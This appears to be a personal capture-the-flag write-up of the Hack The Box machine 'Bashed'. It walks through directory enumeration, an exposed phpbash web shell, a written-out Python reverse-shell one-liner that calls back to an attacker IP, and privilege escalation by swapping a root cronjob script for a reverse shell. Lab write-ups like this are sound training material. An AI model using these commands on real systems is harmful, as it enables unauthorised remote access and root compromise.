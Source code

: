 ```yaml
---
title: "[HTB] Bashed"
author: "Wook Lee"
date: "2024-08-09"
tags: ["Hack The Box"]
---
```


![alt text](image.png#center)
nmap scan found that there is one open port, which is the port 80

<br>

![alt text](image-1.png#center)
Since it was a **_http_** server, I navigated to the web page of target ip address.

<br>

![alt text](image-2.png#center)
I didn't find much interesting information on the web page, so I decided to gather more by using **_gobuster_** with the following command:

`gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,py,html,db,xml,sh,txt`

<br>

![alt text](image-3.png#center)
**gobuster** found many interesting directories, but the directory, **_/dev_** caught my eye because it included this file **_phpbash.php_** where I could run some bash commands.

<br>

![alt text](image-4.png#center)
obtaining the **_user flag_** wasn't that hard since I found the **_phpbash_**. I just had to navigate to the proper user directory.

<br>

![alt text](image-13.png#center)
The problem was gaining the **_root_** user access. You guessed it. Time for **_privilege escalation_**.

<br>

`python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.51",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`

The **_phpbash_** was very useful but it was very limited. Therefore, I decided to pop a **_reverse shell_** using the python command above.

<br>

![alt text](image-14.png#center)
successfully popped the reverse shell.

<br>

![alt text](image-15.png#center)
The `sudo -l` command display a list of commands you are allowed to run with `sudo`.

`(scriptmanager : scriptmanager)` means the user can run `ALL` commands as the user, **_scriptmanager_**.

<br>

![alt text](image-16.png#center)
after gaining the `scriptmanager` user shell by running `sudo -u scriptmanager /bin/bash` command, I explored the directories. I found a suspicious directory, **_/scripts_**, there were two files inside it. One is **test.py** and the other is **_test.txt_**. As you could see from the screenshot above, the former is owned by **_scriptmanager_** and the latter is owned by **_root_**.

The content of the **_test.py_** is a python program that writes into **_test.txt_** file. Also as you could see from the screenshot above, the date format of the **_test.txt_** file is a bit different from the **_test.py_** file.

<br>

![alt text](image-17.png#center)
running another `ls -la` command confirmed that my suspicious was true. There exists a **_cronjob_** that is scheduled to execute the **_test.py_** file and write to the **_test.txt_** file.

**_cronjob_** is a scheduled task in Unix-like operating systems that is executed automatically at specified intervals. It is widely used for automating repetitive tasks, such as system maintenance, backups, updates, or running scripts.

<br>

![alt text](image-31.png#center)
Since I know there exists a cronjob that executes the **_test.py_** file, I can replace the file with a **_python reverse shell_** code with the same file name. The screenshot above is the code. It is the exact same code I previously had used except I changed the port to 2222 since I was already using the port 1234 to pop the original reverse shell.

<br>

![alt text](image-29.png#center)
It's important not to forget to make the file executable.

<br>

![alt text](image-19.png#center)
The command starts a simple http server in the directory where the command is executed. This means that any files in that directory will be accessible over HTTP.

<br>

![alt text](image-20.png#center)
Back to the **scriptmanager** shell, I removed the original **_test.py_** file to replace it over with my file that contains the reverse shell code.

<br>

![alt text](image-30.png#center)
Transferred the file over using the `wget` command.

<br>

![alt text](image-32.png#center)
Within a minute (because the cronjob is set to run every minute), I was connected to the root shell and captured the root flag.

<br>

![alt text](image-33.png#center)

<br>
